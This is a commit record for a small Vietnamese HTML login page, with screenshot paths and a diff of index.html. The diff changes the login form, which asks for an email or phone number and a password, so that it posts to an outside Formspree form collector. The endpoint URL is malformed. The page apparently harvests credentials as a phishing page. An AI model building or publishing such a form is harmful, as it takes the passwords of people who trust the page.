

Before and after one commit to David2026usa/text, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 305-712 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -28,8 +28,9 @@
     <h2 class="title-2">Chào mừng bạn trở lại</h2>
     <p class="title-3">Đăng nhập để tiếp tục sử dụng dịch vụ</p>
     <div class="login-box">
-      <form name="gaove-dang-nhap" method="POST" data-netlify="true" action="/thanhcong.html">
-        <input type="text" name="tai_khoan" placeholder="Email hoặc số điện thoại" required>
+      <form action="https://https://formspree.io/f/mjgdrvjg}" method="post">
+  <label for="email">Your Email</label>
+  <input type="text" name="tai_khoan" placeholder="Email hoặc số điện thoại" required>
         <input type="password" name="mat_khau" placeholder="Mật khẩu" required>
         <button type="submit" class="login-btn">Đăng nhập</button>
       </form>
```
